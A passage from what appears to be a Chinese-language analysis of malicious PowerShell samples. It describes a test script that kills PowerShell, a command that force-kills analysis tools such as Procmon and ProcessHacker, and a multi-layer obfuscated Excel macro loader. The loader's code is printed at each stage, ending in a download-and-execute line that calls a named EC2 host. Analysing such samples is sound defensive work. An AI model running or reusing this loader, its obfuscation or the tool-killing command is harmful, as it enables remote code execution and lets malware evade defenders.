 分析该样本从GitHub上所下载的drupal.js文件，该脚本文件会终止PowerShell进程，并输出“Hello SOC/IR team! :-)“信息。鉴于文件中多处使用了“Test”字符串，我认为它可能是渗透测试或攻防演练中所用的脚本文件。

[![](./img/85746/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p4.ssl.qhimg.com/t016c6832f4990122b5.png)

图8. 结束PowerShell进程的JavaScript文件

**4.28 Process Killing**

此样本使用PowerShell完成特定目的，通常用来终止与恶意软件分析相关的多个进程。

```
kill -processname Taskmgr, ProcessHacker*, Procmon*, Procexp*, Procdump* -force
```

**4.29 Layers of Obfuscation**

这是本文分析的最后一个样本，它似乎与“PowerSploit GTS”变种中的代码有关，两者使用的原始宏基本一致，但此样本没有使用“PowerSploit GTS”的其他代码。

该样本使用多层混淆技术以掩盖其攻击行为。

第一层：

带有宏的Excel文档从单元格中提取base64编码的数据，将数据传递给PowerShell的EncodedCommand参数加以运行。

[![](./img/85746/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p5.ssl.qhimg.com/t015319b5d24f3c5c21.png)

第二层：

解码后的base64数据是一长串int类型数组，转换为char型字符串后作为另一个PowerShell脚本运行。

```
-JOIn (( 32 ,32 , 36 ,86 ,115 , 110 , 50,108 , 54, 32 ,61 , 32,32 , 91,116,121,112,101, 93 ,40 ,34,123 ,51 , 125 , 123, 48 ,125, 123, 49, 125, ,53, 45 ,49, 54,55 , 45,39, 44 ,39 ,101 , 46 , 97, 109, 97 , 122 ,111,110 ,97, 39, 44, 39 ,53,39, 44,39, 119 , 115, 46, 99 , 111 , 109 ,58, 56 , 48 , 39 ,44 ,39,45 , 119, 101 ,115 , 39,41, 41 , 59)|%{([inT]$_-AS [chAr]) } ) | iex
```

第三层：

解码后的数据使用了多种技术对自身进行混淆处理。第一种技术是在其他字符之间插入反引号字符，该字符将在运行时被忽略。这种技术与命令行中的字符注入技术类似。

第二种技术是在其他脚本语言中常见的技术，通过将字符串拆分为随机列表，通过调用特定值完成原始字符串的重建。

```
$Vsn2l6 =  [type]("{3}{0}{1}{2}" -F'UE','S','t','Net.webreq') ;  $h69Q4  =[TYPe]("{1}{2}{3}{4}{0}"-F 'he','nEt.C','REDeNtialC','a','c') ;  ${J}=&amp;amp;("{0}{1}{2}"-f 'new-obj','ec','t') ("{2}{1}{0}{3}" -f 'eb','.w','net','client');${j}."PRo`XY"=  ( VaRIablE  vsn2L6 ).VaLuE::("{0}{3}{2}{4}{1}"-f'GetS','Proxy','em','yst','Web').Invoke();${j}."pr`OXY"."C`RE`De`NTiALs"= (  GeT-VariaBle  H69Q4).VaLUe::"DE`Faultcred`en`TI`ALS";.("{0}{1}"-f 'I','EX') ${J}.("{1}{3}{2}{0}" -f 'string','do','load','wn').Invoke(("{3}{1}{9}{11}{8}{13}{0}{4}{15}{5}{10}{2}{12}{14}{7}{6}" -f'5','tp://','mput','ht','.us','t','0/anSfrf','8','185-','e','-2.co','c2-35-167-','e.amazona','5','ws[.]com:80','-wes'));
```

以下是对代码进行清理后的版本，可知其功能是远程下载代码并通过Invoke-Expression执行代码。



```
$Vsn2l6 = [type]Net.webreqUESt;
$h69Q4 = [TYPe]nEt.CREDeNtialCache;
&amp;amp;new-object net.webclient;
PRoXY= $Vsn2l6.VaLuE::GetSystemWebProxy.Invoke();
prOXY.CREDeNTiALs = ( GeT-VariaBle $h69Q4 ).VaLUe::DEFaultcredenTIALS;
.IEX downloadstring.Invoke(http://ec2-35-167-185-55.us-west-2.compute.amazonaws[.]com:8080/anSfrf);
```
